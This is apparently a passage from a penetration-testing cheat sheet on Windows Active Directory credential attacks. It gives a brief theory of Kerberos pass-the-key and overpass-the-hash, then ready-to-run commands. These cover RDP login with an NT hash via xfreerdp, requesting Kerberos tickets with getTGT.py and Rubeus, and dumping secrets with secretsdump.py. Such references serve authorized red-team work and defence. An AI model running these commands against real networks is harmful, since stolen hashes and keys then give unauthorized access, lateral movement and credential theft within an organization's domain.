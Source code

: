 ### RDP Access
```
xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
```

# Pass The Key / Over-Pass-the-Hash

**Theory**
The Kerberos authentication protocol works with tickets in order to grant access. A Service Ticket (ST) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to ASREProast).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called pass-the-key.

Kerberos offers 4 different key types: DES, RC4, AES-128 and AES-256.

- 1. When the RC4 etype is enabled, the RC4 key can be used. The problem is that the RC4 key is in fact the user's NT hash. **Using a an NT hash to obtain Kerberos tickets is called overpass the hash**.

- 2. When RC4 is disabled, other Kerberos keys (DES, AES-128, AES-256) can be passed as well. This technique is called pass the key. In fact, only the name and key used differ between overpass the hash and pass the key, the technique is the same.

### Commands


**Unix**
```
# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key (pass-the-key)
getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
```

```
secretsdump.py -k -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```

**Windows**

**Rubeus**
```
# with an NT hash (Over-pass-the-Hash)
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key (pass-the-key)
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$aes128_key /ptt

# with an AES 256 key (pass-the-key)
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$aes256_key /ptt
```
